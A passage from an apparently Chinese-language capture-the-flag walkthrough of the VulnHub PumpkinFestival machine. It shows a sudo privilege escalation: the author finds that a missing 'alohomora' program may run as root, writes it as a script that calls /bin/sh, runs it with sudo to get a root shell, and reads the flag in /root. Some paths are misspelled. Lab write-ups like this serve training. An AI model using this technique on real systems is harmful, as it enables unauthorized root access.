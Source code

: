 ![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinFestival/19.png)

可以已 root 权限运行 alohomora 程序,但是并没有找到这个文件，那直接创建个可提权的程序即可

```bash
mkdir pumpkins
echo "/bin/sh" > /home/jack/pumpkins/alohomora
chmod +x /home/jack/pumkins/alohomora
cd /home/jack/pumkins/
sudo ./alohomora
id
cd /root
ls
cat PumpkinFestival_Ticket
```

提权成功
